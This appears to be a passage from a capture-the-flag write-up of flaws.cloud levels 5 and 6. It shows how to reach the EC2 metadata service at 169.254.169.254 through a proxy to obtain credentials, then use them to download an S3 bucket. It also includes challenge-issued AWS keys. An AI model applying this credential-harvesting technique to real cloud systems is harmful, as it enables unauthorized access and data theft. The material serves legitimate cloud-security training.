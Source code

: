 {% include image.html path="documentation/Pasted image 20211023100902.png"
path-detail="documentation/Pasted image 20211023100902.png"
alt="Level 5" %}

We can use proxy to access internal metadata api of ec2, `169.254.169.254`

{% include image.html path="documentation/Pasted image 20211023101804.png"
path-detail="documentation/Pasted image 20211023101804.png"
alt="Level 5" %}

now we can add these creds to `~/.aws/credentials` and then use it to list and download FLaws6 bucket

{% highlight bash %}
┌──(fumenoid㉿kali)-[~/Desktop/Fumenoid/Cloud/Flaws5]
└─$ aws s3 cp s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ . --profile flaws2 --recursive
download: s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/index.html to ./index.html
download: s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/hint2.html to ddcc78ff/hint2.html
download: s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/hint1.html to ddcc78ff/hint1.html
download: s3://level6-cc4c404a8a8b876167f5e70a7d8c9880.flaws.cloud/ddcc78ff/index.html to ddcc78ff/index.html
 
┌──(fumenoid㉿kali)-[~/Desktop/Fumenoid/Cloud/Flaws5]
└─$ ls       
ddcc78ff  index.html
{% endhighlight %}

#### Level 5 - Summarized

{% include image.html path="documentation/Pasted image 20211023103042.png"
path-detail="documentation/Pasted image 20211023103042.png"
alt="Level 5" %}

### Level 6

{% include image.html path="documentation/Pasted image 20211023103541.png"
path-detail="documentation/Pasted image 20211023103541.png"
alt="Level 6" %}

Configuring AWS account for level 6
{% highlight bash %}
┌──(fumenoid㉿kali)-[~/Desktop/Fumenoid/Cloud]
└─$ aws configure --profile flaws3                                                                    
AWS Access Key ID [None]: AKIAJFQ6E7BY57Q3OBGA
AWS Secret Access Key [None]: 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
Default region name [None]: 
Default output format [None]: 
{% endhighlight %}

Geting user ID
{% highlight bash %}
┌──(fumenoid㉿kali)-[~/Desktop/Fumenoid/Cloud]
└─$ aws --profile flaws3 iam get-user
{
    "User": {
        "Path": "/",
        "UserName": "Level6",
        "UserId": "AIDAIRMDOSCWGLCDWOG6A",
        "Arn": "arn:aws:iam::975426262029:user/Level6",
        "CreateDate": "2017-02-26T23:11:16Z"
    }
}
{% endhighlight %}

